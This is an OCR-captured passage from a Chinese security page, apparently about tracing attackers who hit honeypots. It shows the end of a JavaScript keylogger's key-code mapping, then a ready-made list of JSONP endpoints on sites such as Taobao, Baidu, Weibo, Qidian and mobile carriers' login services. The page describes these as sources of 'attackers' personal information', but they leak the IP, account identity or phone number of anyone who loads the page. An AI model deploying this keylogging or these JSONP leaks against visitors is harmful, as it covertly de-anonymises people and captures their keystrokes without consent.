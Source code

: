 ```plain

      case 17:
        keyName = "[Ctrl]";
        break;

      case 18:
        keyName = "[Alt]";
        break;

      case 20:
        keyName = "[大小写]";
        break;

      case 32:
        keyName = "[空格]";
        break;

      case 33:
        keyName = "[PageUp]…</script>
```

常用于获取攻击者个人信息的 JSONP 接口：

```plain
http://burp/favicon.ico
https://openfpcdn.io/fingerprintjs/v3
https://verify.cmpassport.com/h5/httpsPreGetmobile
https://www.taobao.com/help/getip.php?callback=ipCallback
https://www.yy.com/yyweb/user/queryUserInfo.json?callback=jsonp
https://www.cmpassport.com/h5/onekeylogin/getNewUnicomPhonescrip
https://www.cmpassport.com/h5/onekeylogin/getNewTelecomPhonescrip
https://tieba.baidu.com/tbmall/gettdouiconinfo?callback=jsonp1613919078534
https://yuedu.baidu.com/nauser/getyduserinfo?na_uncheck=1&opid=wk_na&callback=bd
https://widget.weibo.com/public/aj_relationship.php?fuid=2991975565&callback=STK_16073033003861
https://v2.sohu.com/api/pc-home-city/home-data/ip2location?_=1606458878259&callback=jQuery1124018281896477578718_1606458878259
https://id6.me/auth/preauth.do?paramKey=10F72757C5A5A12B0A6DA61E62BDF3238163CC31B9CC3CC506CCD6BF67D3BC8CEEC92DAF1ED125BC4F681D118A2ED62D8CD18EE0629220BD69802469FAB4E1C62067CA310EDC5E1A2DCDCF0E8202AA852D611A0B78364344F15A866395C9AAF3C1061C9F6B1ACDCAB232960AC6F14D615ED5184184BDB125AC647A8422EC25D7&clientType=2&paramStr=39826A2D6BADA0327947D80463C1422C01D472F90ECC1B7FC72D262D1C7AC4FC201506C46971655C6C67C5714F232A532126204E40DD35C24C4264AC5D106D9EBEFEBB98157CB7230F5F8BF1788608CA3CF9F38998815804A4652BF20C1EB763525257296155BAF2B4B46836ED276DE6944344B4135D94555640885B4363C4AD&appId=8013416909&format=jsonp&sign=C733AA0C9B2F41175F94344CAF0AA227C2F2B199&version=1.5&
https://opencloud.wostore.cn/openapi/netauth/precheck/wp?timeStamp=1659325750804&packname=xxx&business_type=1&format=jsonp&sign=FCE6F4692C5FEDD8993FDEBD079EBF49&callback=getNewUnicomPhone&fp=&client_type=7&version=v4.5&client_id=99166000000000000228&key=c4ZMLe9%2F1iX9Do2h4FGMqy5vC0IzZ%2Fgj9LePAFU%2BwTSc%2BHUbB6W1arA9YDRqR7HjFok226YHwwJrLq06Da%2BBMBM%2FPV7%2FexfV3uV%2BbR0xzMz4Xy%2F1pKyIriuaXA%2BieaQeYtvjXs1gTYXWc%2F8vZb3TODk9cKywn9FOI7m3iqrJUko%3D&packsign=xxx&
https://www.qidian.com/ajax/UserInfoFemale/GetUserInfo?areaid=6&appid=10&format=jsonp&method=autoLoginHandler&autoLoginHandler=&_=1607051376245&callback=autoLoginHandler
https://www.qidian.com/ajax/UserInfoFemale/GetUserInfo?areaid=6&appid=10&format=jsonp&method=autoLoginHandler&autoLoginHandler=&_=1607051376245&callback=autoLoginHandler
```
